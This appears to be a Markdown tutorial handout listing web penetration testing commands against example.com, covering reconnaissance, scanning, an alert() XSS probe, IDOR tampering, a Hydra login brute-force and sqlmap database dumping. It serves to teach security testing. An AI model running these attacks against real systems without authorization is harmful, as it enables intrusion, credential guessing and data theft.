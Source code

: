 ```yaml
---
layout: article
title: "Web Application Penetration Testing | Hands-on intro"
date: 2025-02-18
categories: Web security
tags: security, web, tutorials, penetration-testing, best-practices]
---
```


# **Web Application Penetration Testing: Essential Commands & Tools**  

## **1. Reconnaissance & Information Gathering**  

### **Find subdomains**  
```bash
subfinder -d example.com
amass enum -d example.com
```
  
### **Retrieve DNS records**  
```bash
nslookup example.com
dig example.com any
```
  
### **Gather HTTP headers**  
```bash
curl -I https://example.com
```
  
### **Discover hidden files & directories**  
```bash
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
ffuf -u https://example.com/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

---

## **2. Web Application Scanning**  

### **Scan for vulnerabilities (OWASP ZAP)**
```bash
zap-cli quick-scan -r -u https://example.com
```
  
### **Basic Nmap scan for open ports**
```bash
nmap -sC -sV example.com
```
  
### **Check for SQL Injection vulnerabilities**
```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs
```

---

## **3. Intercept & Modify Requests (Burp Suite & Curl)**  

### **Use Curl to modify headers**  
```bash
curl -X GET "https://example.com" -H "User-Agent: admin"
```

### **Basic Burp Suite Workflow**
1. **Turn on Intercept** in **Proxy** tab.
2. Navigate to a form and capture the request.
3. Modify the request (e.g., test for XSS, SQLi, or broken authentication).
4. Forward or resend the modified request.

---

## **4. Exploiting Common Web Vulnerabilities**  

### **Test for XSS (Cross-Site Scripting)**  
Inject in input fields or URLs:
```html
<script>alert('XSS')</script>
```
Using `curl`:
```bash
curl -X POST "https://example.com/search" -d "query=<script>alert('XSS')</script>"
```

### **Test for IDOR (Insecure Direct Object References)**  
Modify numerical values in API requests:
```
https://example.com/profile?id=123  → Change to id=124
```

### **Brute-force login forms (Hydra)**
```bash
hydra -l admin -P rockyou.txt example.com http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect"
```

---

## **5. Post-Exploitation & Reporting**  

### **Check for security misconfigurations**
```bash
nikto -h https://example.com
```

### **Dump database contents (If SQLi exists)**
```bash
sqlmap -u "https://example.com/index.php?id=1" --dump
```

### **Capture & analyze traffic (Wireshark)**
```bash
tshark -i wlan0 -w capture.pcap
```

---

## **6. Useful Online Resources**  
📌 [PortSwigger Web Security Academy](https://portswigger.net/web-security)  
📌 [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)  
📌 [HackTricks Cheat Sheet](https://book.hacktricks.xyz/)  
📌 [TryHackMe - Web Fundamentals](https://tryhackme.com/module/)  

---

This handout gives participants a solid reference for key web pentesting commands. Let me know if you need any modifications! 🚀